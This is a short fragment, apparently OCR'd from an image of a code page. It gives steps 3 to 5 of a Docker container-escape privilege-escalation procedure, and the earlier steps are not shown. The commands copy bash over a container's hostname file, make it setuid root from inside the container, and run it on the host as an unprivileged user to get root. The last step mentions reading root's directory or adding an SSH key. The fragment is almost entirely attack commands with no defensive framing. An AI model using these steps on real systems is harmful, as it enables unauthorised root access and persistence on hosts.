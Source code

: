 # Step 3 (back on host):
cat /bin/bash > /var/snap/docker/common/var-lib-docker/containers/<container_id>/hostname

# Step 4 (inside container):
chown root:root /etc/hostname
chmod 4755 /etc/hostname  # make it setuid root

# Step 5 (host - unprivileged user):
/var/snap/docker/common/var-lib-docker/containers/<container_id>/hostname -p
# → You now can read root dir or add your pub ssh_key.
